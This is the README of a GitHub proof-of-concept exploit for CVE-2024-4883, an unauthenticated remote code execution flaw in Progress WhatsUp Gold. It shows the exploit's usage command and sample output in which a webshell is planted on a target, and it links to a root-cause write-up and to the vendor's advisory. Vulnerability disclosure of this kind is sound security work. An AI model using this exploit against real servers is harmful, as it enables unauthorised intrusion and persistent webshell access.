

# CVE-2024-4883
PoC for CVE-2024-4883 Progress WhatsUp Gold WriteDatafile Unauthenticated Remote Code Execution (CVE-2024-4883)


## Technical Analysis
A root cause analysis of the vulnerability can be found on my blog:
https://summoning.team/blog/progress-whatsup-gold-WriteDataFile-CVE-2024-4883-RCE/

[](https://summoning.team/blog/progress-whatsup-gold-WriteDataFile-CVE-2024-4883-RCE/)


## Usage
```
WhatsUpWriteDataFileExploit.exe --target 192.168.0.11 --port 9643 --webshell hax.aspx

 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |

        (*) Progress WhatsUp Gold WriteDataFile Unauthenticated Remote Code Execution (CVE-2024-4883)

        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam)

        (*) Technical details: https://summoning.team/blog/progress-whatsup-gold-WriteDataFile-CVE-2024-4883-RCE


(^_^) Prepare for the Pwnage (^_^)

(*) Connecting to ICoreServices net.tcp://192.168.0.11:9643/
(*) Connection is ready
(*) Using write what where primitive, to plant C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\eb8e455a-28d2-4628-80cb-ef2d786c8409.aspx
(+) Webshell has been planted at https://192.168.0.11/NmConsole/eb8e455a-28d2-4628-80cb-ef2d786c8409.aspx

```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Progress Advisory
* https://community.progress.com/s/article/WhatsUp-Gold-Security-Bulletin-June-2024

## Follow Us on Twitter(X) for the latest security research:
*  [SinSinology](https://x.com/SinSinology)
*  [SummoningTeam](https://x.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

